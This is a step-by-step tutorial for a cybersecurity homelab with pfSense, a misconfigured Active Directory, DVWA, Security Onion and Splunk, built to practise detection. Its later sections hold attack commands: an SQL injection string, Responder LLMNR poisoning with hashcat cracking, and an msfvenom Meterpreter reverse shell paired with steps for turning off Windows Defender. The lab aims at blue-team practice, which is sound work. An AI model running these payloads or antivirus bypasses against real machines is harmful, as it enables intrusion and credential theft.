## Overview

This document outlines the steps to take to set up a 
cybersecurity homelab that simulates a small enterprise network. The lab
supports vulnerability testing, attack simulation, log aggregation and
network monitoring.

## Summary

This homelab was built out of my interest in testing Blue Team response strategies. It features a pfSense firewall, vulnerable web apps (DVWA), and a misconfigured Active Directory environment. All of this is monitored by Security Onion and Splunk. Attacks featured in this lab are SQL injection, port scanning, LLMNR poisoning and reverse shells with rules and endpoint agents to detect and analyze these threats.

## Objectives

-   Deploy a segmented virtual environment for testing

-   Set up and configure firewall

-   Build a vulnerable network to exploit

-   Configure defensive tools

-   Simulate attacks and analyze detections

## Technologies

-   VMware Workstation Pro

-   pfSense Firewall

-   Kali Linux

-   Security Onion

-   Splunk

-   Active Directory Domain Controller

-   Windows 11 Clients

-   DVWA (Damn Vulnerable Web Application)

## Requirements

<table>
<colgroup>
<col style="width: 33%" />
<col style="width: 33%" />
<col style="width: 33%" />
</colgroup>
<thead>
<tr class="header">
<th>Component</th>
<th>RAM</th>
<th>Disk</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Security Onion</td>
<td>16 GB</td>
<td>200 GB</td>
</tr>
<tr class="even">
<td>Splunk Server</td>
<td>4 GB</td>
<td>100 GB</td>
</tr>
<tr class="odd">
<td>Windows 11 Clients</td>
<td>4 GB</td>
<td>64 GB</td>
</tr>
<tr class="even">
<td>Kali</td>
<td>2 GB</td>
<td>80 GB</td>
</tr>
<tr class="odd">
<td>Domain Controller</td>
<td>2 GB</td>
<td>60 GB</td>
</tr>
<tr class="even">
<td>DVWA</td>
<td>2 GB</td>
<td>20 GB</td>
</tr>
<tr class="odd">
<td>pfSense</td>
<td>1 GB</td>
<td>20 GB</td>
</tr>
</tbody>
</table>

Note: This lab is very intensive, and you most likely will not be able
to run all components at once.

## Network Topology



# Table of Contents
1. [Downloading and installing VMware Workstation Pro](#downloading-and-installing-vmware-workstation-pro)
2. [Installing and configuring pfSense](#installing-and-configuring-pfsense)
3. [Kali Linux setup](#kali-linux-setup)
4. [Victim network configuration](#victim-network-configuration)
5. [DVWA](#dvwa)
7. [Security Onion](#security-onion)
8. [Configuring Security Onion agents on endpoints](#configuring-security-onion-agents-on-endpoints)
9. [Installing Splunk](#installing-splunk)
10. [Attacking our machines](#attacking-our-machines)
11. [Active Directory LLMNR](#active-directory-llmnr)
12. [Reverse shell detection](#reverse-shell-detection)
13. [Lessons Learned](#lessons-learned)

## Downloading and installing VMware Workstation Pro

This lab will be using VMware Workstation Pro as its hypervisor. It is
free to use and can be downloaded
[here](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)
with a Broadcom account.

Before continuing we must set up the virtual network on VMware.

Go to Edit &gt; Virtual Network Editor

Click Add Network and add VMnet2 then, configure VMnet2 with a subnet
address of your choice.

Configure VMNet2 using 10.1.0.0 with a subnet mask of 255.255.255.0
(/24)

Uncheck use local DHCP service to distribute IP addresses to VMs. We
will be using our own DHCP server, so this is unnecessary.

Do this again for VMnet5 and configure it with an address of 10.30.0.0
with a subnet mask of 255.255.255.0 (/24)

Uncheck local DHCP service for this as well.



## Installing and configuring pfSense

pfSense will be configured as our firewall, it is accessible
[here](https://www.pfsense.org/download/). Make sure the AMD64 ISO
IPMI/Virtual Machines version is selected.

To install, go to File &gt; New Virtual Machine



Select “Typical” and click next



Click “Browse” and navigate to the pfSense image file.  
Click next.

Rename the Virtual Machine. I chose pfSense.

Click next.

The default disk size of 20GB is enough.

Click next.



Now, we will be editing the hardware of the pfSense machine. Click
“Customize Hardware”

Change the memory to 1GB

Click on Network Adapters and add 4 Network Adapters for now

For Network Adapter 2 select custom VMnet2

For Network Adapters 3-5 select custom and any unused VMnet#



Click close and after that click finish

The machine will now power on. Wait for it to reach the screen below.



Accept defaults until you reach the WAN interface assignment screen.



Select em0 and click enter.

Continue until you reach the LAN Interface Assignment screen.



Select em1 and press enter

Continue through the installer.



Select Install CE and continue with defaults.

Reboot when prompted.



Configure the LAN through the CLI

Select Option 2) Set interface(s) IP address



Choose the LAN interface (2)

The IP address of 10.1.0.1 will be used to access the pfSense web
configurator.

Use the following configuration to set up the LAN interface



Enable the DHCP server

Start range: 10.1.0.100

End range: 10.1.0.150



pfSense is now ready to be set up through the web interface.

The way this configuration of pfSense has been configured enables it to
be configured outside of the virtual machine and through your host web
browser. Navigate to the address listed by pfSense on your host machine.

Note: If you have issues accessing the webpage go to your network
connections in Windows and edit the IPv4 settings of the VMnet2 adapter
to the following.





Login with the following.

Username: admin

Password: pfsense

Go through the guided setup



Use your favorite DNS server. I will be using Quad9 and Google’s public
DNS.



Configure a new admin password.

Now we will configure the remaining network interfaces.

Go to Interfaces &gt; Assignments



Add all the remaining interfaces.

Now go to Interfaces &gt; OPT1

Configure the following



Go to Interfaces &gt; OPT2

Configure the following



Go to Interfaces &gt; OPT3

Configure the following



Go to Interfaces &gt; OPT4

Rename to SPANPORT

Enable the interface

Click save and apply



Go to Interfaces &gt; Assignments

Click on Bridges

Click Add

Select VICTIM

Display Advanced

Under Span Port select SPANPORT

Click save and apply changes

Go to Services &gt; DHCP Server

For each interface configure the following

Enable DHCP Server on X interface

Address Pool Range Start: 10.X.0.100 – 10.X.0.150



Let’s set up some rules for the firewall now

Leave WAN and LAN as is

Under ATTACKER modify the following



Under VICTIM modify the following

Note: The disabled rule is a rule I configured to allow me to access the
internet for the install of DVWA and Splunk. Enable this during the
install if you want these features and disable after.



For SECURITY, you will need to enable this rule during the install of
Security Onion or else it will fail. Disable it after



Enable this for the SPANPORT



Save and apply

The pfSense setup is complete for now.

## Kali Linux setup

Select and download the VMware virtual machine from the Kali website
[here](https://www.kali.org/get-kali/#kali-virtual-machines).

Since it is a VM file, just open it instead of making a new virtual
machine, however before starting make sure to change the Network Adapter
to VMnet3.

Power it on.

If you have never used Kali Linux the default credentials are kali/kali.

Change this by going to the terminal and issuing passwd



## Victim network configuration

Next, we will install the victim machines.

To begin, download both Windows Server 2019
[here](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2019)
and Windows 11 Evaluation
[here](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-11-enterprise).

Create a new virtual machine with Windows 2019 Server

Ignore Windows Product Key and continue with defaults

Change the Network Adapter to VMnet4 (Victim network)



Select Windows Server 2019 Standard Evaluation (Desktop Experience)



Select Custom Install



Click New

Click Apply

Click Ok

Click Next



This lab is meant to be attacked so I will be using a weak password. Use
whatever you want.

In the Windows search bar search for rename

Select Rename this PC and choose your name



Now we will install Active Directory

Click Manage &gt; Add Roles and Features

Continue until the Server Roles tab

Select Active Directory Domain Services

Select Add Features



Click Next and Install

Click Close

Click on the flag at the top with the yellow warning icon



Select Promote this server to a domain controller

Select the settings below

Note: The root domain name \[LAB\] can be whatever you want, just keep
it consistent.



Click next



Input your password and continue until you can install and reboot.

Go back to the Server Panel

Select Manage &gt; Add Roles and Features again and continue until you
get to Server Roles



Continue through the installer until the confirmation page

Select Restart the destination server automatically if required

Once the installer is done, close it and click on the flag again



Select Configure Active Directory Certificate Services on the
destination server

Click Next

On the role Services menu, select Certification Authority and click next



Click Next until you get to the Confirmation menu

Select Configure

Now Restart the server and log back in

Go to Tools &gt; Active Directory Users and Computers



Expand your Domain (LAB.local)

Right click Users

Select New &gt; User

Enter First name, Last name and User Logon name



Click Next

Set a password that never expires and click Next and Finish



Right click this user, Copy and make another user following the same
steps

Now, let’s set up a static IP for the Domain Controller

Search for Control Panel &gt; Network and Internet &gt; Network Sharing
Center



Select Ethernet0

Click Properties

Select Internet Protocol Version 4 (TCP/IPv4)

Click Properties

Input the proper settings for your network configuration

If you followed the lab as is it will look like the below



The Active Directory Domain Controller is now set up.

Adding Users to the AD Domain

Create a new virtual machine using the Windows 11 Evaluation ISO

Follow through the installer

Change the Network Adapter to VMnet4

Continue through the Windows 11 Installer

Select Install Windows and check I agree



Continue until Windows 11 is installed and first time setup begins



Select I don’t have internet

Use the user and password you setup in your DC configuration

Uncheck all privacy settings



Search “rename” and set the PC name to the designated user

Reboot

Search “view network connections”

Right click Ethernet0 and select properties

Select IPv4

Add an IP address like 10.20.0.3

subnet mask of 255.255.255.0

10.20.0.1 as the default gateway

Use 10.20.0.2 as the DNS server



Click ok

Search access work or school

Click connect

Select Join this device to a local Active Directory domain



Enter domain information

Domain name: LAB.local

Enter the information of one of the user accounts you created



Click Ok

Click Skip



Restart now when prompted

Follow these steps again and make another Windows virtual machine with
the other user you created.

This section is optional

Now we will set up the local user as an administrator.

This misconfiguration is intentional to simulate privilege escalation
and lateral movement scenarios.

Select Other User



Search “Computer Management”

Local Users and Groups &gt; Groups

Right click Administrator &gt; Properties

Add JWindows and apply

Ensure network discovery is enabled



Click the banner

Turn on network discovery and file sharing

Do the same steps for the other Win11 virtual machine except add both
user accounts this time.



Now we are done with Active Directory.

## DVWA

I will use an Ubuntu Server for this. Get it
[here](https://ubuntu.com/download/server).

Install it with 1gb of ram and 1 processor

Add a Network Adapter of VMnet4

After the installation of DVWA we will remove Network Adapter 1, keep it
for now.

Continue through the defaults of the installer.





Once Linux is installed, please follow the instructions on how to setup
DVWA [here](https://github.com/digininja/DVWA).

Once you are finished with that remove the NAT Network Adapter from the
machine and reboot.

## Security Onion

Return to the pfSense web interface

Go to Firewall &gt; Rules &gt; Security

Click Add

Create a rule to allow TCP/UDP HTTPS traffic with a source from any
subnet on the Security Network



Apply and save

This rule will be disabled after the Security Onion installation

Select Typical installation &gt; Click Next

Select the SO ISO file &gt; Click Next



Specify name of machine

Click Next



Specify disk size of 200GB and store as a single file

Click Next



Increase Processors to 4

Increase Memory to 16GB

Add 2 Network Adapters

In my case it will be 4 (Security) and 5 (SpanPort)

Click Next



The machine will boot now

Select “Install Security Onion 2.4.160”



Type “yes” when prompted

Create a user account and continue with the installation



The installation will take awhile

Press “Enter” to reboot when it successfully finishes



When rebooted you will be prompted to login

Do so and continue through first time setup

Press enter when prompted



Press enter to Install



Select STANDALONE



Type AGREE and hit Enter



Select Standard and hit Enter



It may pop up with a warning that your machine does not meet the minimum
requirements. This is ok, just continue through the setup.

Enter a hostname



Enter a description of the node and continue



Select the NIC of the interface you want to be the management interface.
Compare MAC addresses of the correct one during the installation to
ensure you choose the correct one.



Configure a STATIC IP address of the interface.



Enter the default gateway



Continue through the installer with defaults until you need to add a
Monitor Interface

Select the NIC of your SpanPort that was configured earlier with
spacebar and then hit Enter



Enter an email address, this does not need to be a real one.



Select IP to access web interface



Allow access to web interface

Enter your home network (usually 192.168.0.0/24)

Continue until setup is complete



When the installation is complete press enter to finish



Go to the web interface by using the configured IP address

Hit advanced and proceed

Login to Security Onion using the configured email and password



If we run a quick NMAP scan we can see it gets detected immediately by
Suricata





Security Onion is now set up.

## Configuring Security Onion agents on endpoints

Enter the Security Onion web interface

Head to the Configuration page in the navigation menu

Go to firewall &gt; hostgroups &gt; elastic\_agent\_endpoint

Add the CIDR block of the Victim subnet



Head to the Elastic menu from the Security Onion Navigation panel

In Elastic go to Management &gt; Fleet &gt; Add agent



Select endpoints-initial



Choose Linux Tar

Copy the full CLI command into your Linux machine

Enter y to continue with installation

If the installation fails, you may need to add --insecure to the end of
the command



The agent will now appear in your fleet list



To install Windows, follow the same steps but when you add an agent
change from Linux Tar to Windows



The command prompt will close, and the installation will be completed



Do this to as many endpoints on your network as you wish

## Installing Splunk

Create a new virtual machine using the Ubuntu Server ISO downloaded
previously

Use a disk size of 100GB

Add Network Adapter 5 (Security)



Create the machine

Continue through installation

[Copy Splunks wget link
here](https://www.splunk.com/en_us/download/splunk-enterprise.html?locale=en_us)



Untar the file

Enter the /splunk/bin directory

Enter the command ./splunk start

Accept the terms of service



Enter an administrator username and password

If you followed the tutorial steps, you can access the interface from
your local machine at the machine’s IP address and port 8000

In my case this will be 10.30.0.4:8000

Enter the Splunk admin user and password configured in the last step



Let’s install the Splunk Universal Forwarder on a Windows and Linux host
so we can start gathering logs

On the Splunk web interface navigate to Settings &gt; Forwarding and
Receiving  
Under Receive Data select Add new

Input the suggested port of 9997



Now we will install the forwarder

Starting with our vulnerable Linux machine

Copy the wget link
[here](https://www.splunk.com/en_us/download/universal-forwarder.html)

I am using a 64-bit machine so I will copy the 64-bit .tgz distribution

Paste it into the Linux machine



Untar it after it is downloaded

Enter the directory

Cd /splunkforwarder/bin

Issue ./splunk start

Accept the license again



Create a username and password, preferably different from your
administrator panel

Now run the following commands from the /splunk/bin directory

./splunk add forward-server \[splunkserverip\]:9997

It will ask for the username and password of the splunkforwarder
instance

Now do ./splunk set deploy-poll \[splunkserverip\]:8089



Now, on your machine with the splunkforwarder, create a file called
inputs.conf

Splunkforwarder/etc/system/local/inputs.conf

Add the following information into that file



Information from the Apache server will now be sent to our Splunk
instance.



Now let's add a forwarder to our Windows host.

Get the Windows 64-bit forwarder from
[here](https://www.splunk.com/en_us/download/universal-forwarder.html)

Shift right click on the desktop to open up PowerShell



Paste in the wget link

After the msi file execute it



Agree to the License Agreement

Click Next

Add a username and password

Enter the IP of the Splunk Server and default port

In my case it will be 10.30.0.4:8089



Enter the IP of the Splunk host again and port of the receiver which was
previously configured

In my case it will be 10.30.0.4:9997



Click Install



Now, go to the path C:\Program
Files\SplunkUniversalForwarder\etc\system\local

Ensure filename extensions are on

Create a file called inputs.conf

Open this file with notepad

Add the following to the file



Now Splunk will populate data from this Windows machine.

Now you know how to forward data to Splunk on Windows and Linux
machines.

## Attacking our machines

Now we will run some simple attacks on the machines and review the logs
through Security Onion and Splunk.

In Kali run the following basic commands
```
nmap -sV \[ip of server\]
```
```
sqlmap -u \[ip of server\]
```
Detected alerts pictured below



Let’s set up a simple rule to detect SQLi on the DVWA machine.

Go to the elastic navigation pane

Security &gt; Rules &gt; Detection Rules &gt; Create new rule

Add the following custom query

Note: This rule is very basic but functional for our needs in this lab



Name the rule and set a description

Create it

Head to your Kali machine and execute 1’ OR’1=1’# on DVWA



We can also see this get logged in Splunk



## Active Directory LLMNR

Let’s attempt an attack on the Active Directory machine now

Open a terminal on your Kali machine

Enter the following command
```
responder -I eth0
```


Enter your Windows 11 client machine

Open a file path to \\\[IP of Kali\]

Enter your Kali machine again

You should now see a NTLMv2 hash appear



Copy the hash into a file

Use hashcat to crack the hash
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
Note: you may need to extract the rockyou wordlist. To do so go to
/usr/share/wordlists/ and use gzip -d



Here we can see hashcat was able to crack the hash

Note: You may need to increase the RAM of your Kali machine for hashcat
to work correctly.



In conclusion, the best way to defend against this attack would be to
disable LLMNR and NBT-NS by disabling Multicast Name Resolution and
Disable NetBIOS over TCP/IP

## Reverse Shell Detection

Let’s execute a reverse shell on our Windows host and analyze the
traffic now

Go to Kali

Type the following in the terminal
```
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.0.100
LPORT=9999 -f exe -o payload.exe
```


Host a python webserver to download this file onto our windows machine
```
python http.server --bind 10.10.0.100 8000
```
Go to 10.10.0.100:8000 on your Windows Machine

Click download on the payload.exe file

Your antivirus will immediately catch this file

Search for Virus & threat protection



Scroll to Virus & threat protection settings and click Manage settings



Disable Real-time protection


Download the payload.exe again

It will ask you if you want to keep it. Keep it anyway.

Add an exclusion for the file in the Virus & threat protection tab

Type msfconsole into the terminal

Enter Use multi/handler

Type set payload windows/meterpreter/reverse\_tcp to set the payload

Type set LHOST to 10.10.0.100 to set the local host IP to the Kalis IP

Type set LPORT 9999 to set the local port

Type exploit



Head back to your Windows machine and run the payload.exe



Run anyway



We now have a reverse shell on the Windows machine

Run the following commands and then check the SecurityOnion & Splunk
installation

Play around with some commands

Issue the screenshot command

Issue the sysinfo command





Type shell to enter a Windows shell

There should be lots of traffic for you to analyze in Security Onion now

Like the following





This concludes the setup and testing of the lab. It is yours to test and
expand now.

## Lessons Learned

-   Networking is 80% of the challenge. Troubleshooting was more
    time-consuming than expected

-   Rule creation requires careful tuning and validation in order to
    reduce false positives

-   Developed skills in interpreting alerts and prioritizing incidents

-   Gained experience deploying IPS/IDS solutions
